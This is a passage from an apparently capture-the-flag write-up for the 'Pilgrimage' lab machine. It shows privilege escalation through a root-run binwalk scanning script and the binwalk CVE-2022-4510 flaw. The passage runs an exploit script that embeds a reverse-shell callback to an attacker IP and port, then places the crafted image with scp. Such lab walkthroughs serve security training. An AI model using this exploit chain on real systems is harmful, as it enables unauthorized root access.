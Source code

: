 ```
<...SNIP...>
root         754  0.0  0.0   6816  2948 ?        Ss   02:35   0:00 /bin/bash /usr/sbin/malwarescan.sh
```
Reading the contents:
```bash
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
It appears that, when files are added to the `/shrunk/` folder, this malwarescan script will run `binwalk -e`, extracting components. If there are blacklisted contents in the output, the file is removed.
Running `binwalk` will get us the version, and we can search for vulnerabilities:
```
emily@pilgrimage:~$ binwalk

Binwalk v2.3.2
```
With a quick google search, we can find an [exploit-db post on this](https://www.exploit-db.com/exploits/51249).
### Remote Code Execution via Binwalk vulnerability
The exploit script takes an input image, an attack IP address, and an attacker port number:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ python cve-2022-4510.py sample.png 10.10.14.126 8888

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```
The file can be placed directly through `scp`:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ scp ./innocent.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/       
emily@pilgrimage.htb's password: 
innocent.png                                                                      100% 2969    69.5KB/s   00:00
```
